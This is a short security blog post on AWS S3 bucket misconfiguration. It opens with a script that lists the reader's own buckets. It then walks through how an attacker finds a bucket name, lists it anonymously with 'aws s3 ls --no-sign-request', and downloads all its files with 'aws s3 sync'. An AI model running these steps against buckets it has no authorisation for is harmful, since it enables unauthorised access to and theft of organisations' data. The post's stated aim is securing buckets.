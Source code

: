 ```yaml
---
title: "S3 Bucket Misconfiguration"
seoTitle: "S3 Bucket Security Risk"
seoDescription: "A guide to securing AWS S3 buckets, identifying and mitigating misconfigurations to protect sensitive data from potential attackers"
datePublished: Fri Sep 13 2024 14:30:54 GMT+0000 (Coordinated Universal Time)
cuid: cm10tg56b005f09lacza0ho8t
slug: s3-bucket-misconfiguration
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1726236553275/cb5608a0-903c-4bd2-acc9-1de55b77666a.png
ogImage: https://cdn.hashnode.com/res/hashnode/image/upload/v1726237781284/0d9e6e7e-f733-43c8-9711-55056dcc94ff.png
tags: aws, aws-cli, s3-cli, s3-bucket, aws-s3-misconfiguration

---
```


# Agenda

Today we are going to check s3 bucket security:

1. Install **aws-cli** and config aws credentials using the command:
    
    ```bash
    aws configure
    ```
    
2. Create a python script to list out the s3-buckets (This is for blue team for security or you can skip this part otherwise) :
    
    ```bash
    import boto3
    s3 = boto3.resource('s3')
    for bucket in s3.buckets.all():
            print(bucket.name)
    ```
    
    * You'll get list of AWS s3 buckets on your AWS account.
        
3. As a curious attacker, we are going to exploit this:
    
    * Try to url grabbing using waybackurls, dirsearch or anything or just checkout the source code.
        
    * You might get the files link from the source code too open the files.
        
    * Simply, open the image on the webapp, you may get the s3 bucket name from all these process.
        
    
    # Let’s dig more now.
    
4. Try using this method, if you already got s3-bucket name
    
    [https://s3.ap-south-1.amazonaws.com/$s3-bucketname](https://s3.ap-south-1.amazonaws.com/$s3-bucketname)
    
    * If the s3 bucket is misconfiguration, it will display all data with documents on the page.
        
    * If the s3 bucket is configured, it will show access denied to third party.
        
5. List out all files in the s3 bucket:
    
    ```bash
    aws s3 ls s3://$bucket_name/ --no-sign-request --region ap-south-1
    ```
    
6. Download all s3 bucket files from s3 to [localhost](http://localhost) using awscli:
    
    ```bash
    aws s3 sync s3://$bucket_name/ ~/Documents/HiCare --no-sign-request --region ap-south-1
    ```
    
7. Now this is how we can get many sensitive data from the company. This may lead to huge risk to the company.
    

### Conclusion:

### `The goal of this testing is to secure the AWS S3 bucket from attackers. If an organisation's data is leaked, it can lead to a very critical situation for the company.`

[  
](https://devsecops.abisec.xyz/cloud-security-resources)